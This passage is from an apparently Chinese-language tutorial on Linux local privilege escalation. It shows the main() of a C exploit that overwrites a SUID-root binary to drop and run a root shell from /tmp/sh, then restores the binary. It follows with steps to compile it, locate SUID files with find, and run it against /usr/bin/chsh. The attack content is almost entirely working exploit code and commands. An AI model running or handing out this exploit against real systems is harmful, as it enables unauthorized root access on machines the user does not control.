 ```java

  close(fd);

  return 0;
}

int main(int argc, char **argv) {
  if (argc != 2) {
    fprintf(stderr, "Usage: %s SUID\n", argv[0]);
    return EXIT_FAILURE;
  }

  char *path = argv[1];
  uint8_t *data = elfcode;

  int fd = open(path, O_RDONLY);
  uint8_t *orig_bytes = malloc(sizeof(elfcode));
  lseek(fd, 1, SEEK_SET);
  read(fd, orig_bytes, sizeof(elfcode));
  close(fd);

  printf("[+] hijacking suid binary..\n");
  if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {
    printf("[~] failed\n");
    return EXIT_FAILURE;
  }

  printf("[+] dropping suid shell..\n");
  system(path);

  printf("[+] restoring suid binary..\n");
  if (hax(path, 1, orig_bytes, sizeof(elfcode)) != 0) {
    printf("[~] failed\n");
    return EXIT_FAILURE;
  }

  printf("[+] popping root shell.. (dont forget to clean up /tmp/sh ;))\n");
  system("/tmp/sh");

  return EXIT_SUCCESS;
}

```
gcc dirty.c -o dirty  编译成dirty文件

然后低权限用户需要找到suid权限文件<br />$ find / -user root -perm /4000 2>/dev/null

找到一个比较合适的，就用来指定一下，就可以成功提权了，不需要覆盖密码什么的<br />$ ./dirty /usr/bin/chsh   <br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647064739351-77548276-bf81-4b6d-9fbf-fb2372a390dd.png#clientId=ub2b2bbc8-7500-4&from=paste&height=138&id=ud217d0ea&originHeight=184&originWidth=544&originalType=binary&ratio=1&rotation=0&showTitle=false&size=65564&status=done&style=none&taskId=u9e7abeed-d519-4923-ae24-ceb198369f8&title=&width=408)
